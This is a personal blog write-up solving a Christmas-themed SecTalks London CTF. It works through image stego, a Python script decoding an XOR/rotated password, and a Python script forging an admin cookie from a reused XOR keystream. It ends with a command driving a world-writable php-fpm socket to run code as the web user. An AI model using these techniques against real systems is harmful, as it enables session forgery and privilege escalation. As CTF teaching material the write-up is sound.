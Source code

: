 ![Logo](/assets/images/sectalks5-0.jpg)

Last week I've been to the 5th SecTalks London meetup and I'm proud to say I've learnt something that evening and wanted to say Thank you to the creator of the night's challenge - @leigh.  I'll definitely be going again.

Below is a write-up of my solution. Hopefully by now the details of the challenge are made public so if people are still working on this I won't spoil anyone's fun by publishing this.

## Stage 0
The challenge is Christmas themed and  starts at the North Pole: 178.62.xx.xx/1.html

> 'While taking a well earned break at the Pole Star Tavern, you overhear a couple of the local elves talking about some of the security improvements they've made to Santa's distribution infrastructure this year.
Of particular interest to you is the digitisation of the naughty and nice lists, you know you haven't exactly been on your best behaviour this year, perhaps there is something you can do about that.
You snap out of your daydream to find them picking up the papers they've been glossing over and making for the door. One of them drops something. When nobody is looking you head over and pick it up.
It's a Christmas card with some writing on the front.
The writing looks like it's in some sort of code: 4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194
There must be some more clues on the card!'

![Christmas card](/assets/images/sectalks5-1.png)

## Stage 1
The hint for this stage for "Simple stego". I've first opened the image in Gimp and noticed there was an alpha channel.  Unfortunately nothing really obvious here. Then I thought about varying colour intensity, a method used to enhance black and white images.

In Gimp it is quite easy to [vary the threshold](https://docs.gimp.org/en/gimp-tool-threshold.html): **Colours -> Threshold**. And TA DA !

![Stego revealed](/assets/images/sectalks5-2.png)

## Stage 2
We have some pseudo-code right here. Basically every character of the password was rotated left by its position and then XOR-ed with 42. So to get the initial password we need to apply the reverse operations: XOR then ROR (rotate right!):
 
```python
import binascii                                                                                                                                                                                                                          
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
(val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
 
p = "4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194"
v = binascii.unhexlify(p)
 
print [ ord(v[i]) for i in range(len(v))]
 
 
print "".join([ chr(ror(ord(v[i])^42,i,8)) for i in range(len(v))])
```

Running this script we get the credentials for the next stage, accessible at 178.62.xx.xx: **flag{user:elf2207,pass:snow\*\*\*}**

## Stage 3
Nothing interesting after logging in, just 2 list of names randomly changing:

![Lists](/assets/images/sectalks5-3.png)

But there is a cookie, whose value is:

*ccYKPh4W%2BAEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf%2BsWA%3D*

After URL-decoding it, we get a nice Base64 string:
*ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=*

Nothing obvious straight-away. But it becomes interesting if we corrupt the base64 data by removing 2 characters from the end for example. There is an error message displayed:

Corrupted session data: **_{"user":"elf2207","is_admin":fals_**

Probably we removed the last letter 'e' from the encrypted version of the cookie, that's why the error. By comparing the lengths of the decoded base64 and error message, we see they are the same. So the guess is that the session data is encrypted with a sort of one-time-pad. By now you already know what's coming next :sunglasses:

I've XOR-ed the decoded data with the plain-text message to get the key, then used the key to encrypt a new session data, containing the the value true for the **is_admin** property.

```python
import base64                                                                                                                                                                                                                            
 
pt = '{"user":"elf2207","is_admin":false}'
print "[*] Decoded len: ", len(pt)
 
c = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=")
print "[*] Decoded cookie len: ", len(c)
 
# Probably XORed with long one-time-pad. Get the key :D
k = [ord(a) ^ ord(b) for a,b in zip(pt, c)]
print "[*] XOR key: ", k
kStr = "".join([chr(n) for n in k])
 
# Encode desired cookie
pt2 = '{"user":"elf2207","is_admin":true}'
c2 = [ord(a) ^ ord(b) for a,b in zip(pt2, kStr[:len(pt2)])]
print "Admin cookie (to be url-encoded): ", base64.b64encode("".join([chr(n) for n in c2]))
 
# Test
c3 = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGE2Z87oqQ==")
pt3 = [ord(a) ^ ord(b) for a,b in zip(kStr, c3)]
print "[*] Decoded test cookie: ", "".join([chr(n) for n in pt3])
```

## Stage 4
Now we're in!

>After poking around for a while you realise that the system is fundamentally broken, and even admins cannot edit the naughty and nice lists!
Determined to exploit the system you press on, and discover that the elf has SSH access to the system, with the credentials "elf2207" and the password "snow***"'

Before exploiting  anything we need to understand some concepts. The machine is a Debian 8 system:

```bash
elf2207@grot0:~$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf2207@grot0:~$ uname -a
Linux grot0 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
elf2207@grot0:~$ 
```

[Nginx](https://en.wikipedia.org/wiki/Nginx) web server is running, and by looking in the configuration files we see that it will pass [FastCGI](https://en.wikipedia.org/wiki/FastCGI) requests through a pipe, which will be executed by php-fm.

```bashlocation ~ ^/index.php$ {
        fastcgi_param  SCRIPT_FILENAME    /home/webuser/index.php;
        fastcgi_param  REQUEST_METHOD     $request_method;
        fastcgi_param  REQUEST_URI        $request_uri;
 
        fastcgi_pass unix:/var/run/php-fpm.sock;
}
```

 Going back to the login message, I remembered there was something about /home/webuser directory:
 
 ```bash
$ cat /etc/motd
 
This system is poorly configured. You figure that the data you want must be in the /home/webuser directory.
```

Unfortunately we don't have read permissions to that  folder:
```
drwxr-x---  3 webuser webuser 4096 Jan 26 20:30 webuser
```

But someone else has - php-fm. To understand a bit more what's happening, Nginx is sending requests to the socket file defined in sites-available configuration file and php-fpm is picking them up and executing them:

**_Browser -> nginx -> (FastCGI) -> PHP-FPM _**

The configuration file for php-fm is readable at /usr/local/etc/php-fpm.d/www.conf. Remember the Message of the Day mentioned a _poorly configured_ system. The culprit is actually in the **insecure permissions for the socket used by nginx** to send commands to php-fm:

```
listen = /var/run/php-fpm.sock
listen.mode = 0666
```

This makes the socket world writeable! In fact it  should be readable/writeable only by the nginx user. So we can actually send commands to php-fm ourselves, that is if we first find out how to communicate with it.

```
REQUEST_METHOD=GET SCRIPT_FILENAME= /home/elf2207/hello.php cgi-fcgi -bind -connect /var/run/php-fpm.sock
 
X-Powered-By: PHP/7.2.0-dev
Content-type: text/html; charset=UTF-8
 
Well that was easy wasn't it :)
 
Have a cookie!
```

There are a few minor obstacles here, like not being able to compile stuff on the box (missing GCC) or install apps (no sudo, obviously:) but I'll let you figure out how to overcome them. It shouldn't be too difficult.

## References

**PHP-FM Architecture**

[PHP-FM](https://serversforhackers.com/video/php-fpm-configuration-the-listen-directive)

**Talking to FastCGI Server**

[Directly connecting to PHP-FPM](https://www.thatsgeeky.com/2012/02/directly-connecting-to-php-fpm/)
[Communicate with PHP FastCGI from ruby](http://stackoverflow.com/questions/16561826/communication-with-php-fastcgi-socket-from-ruby)
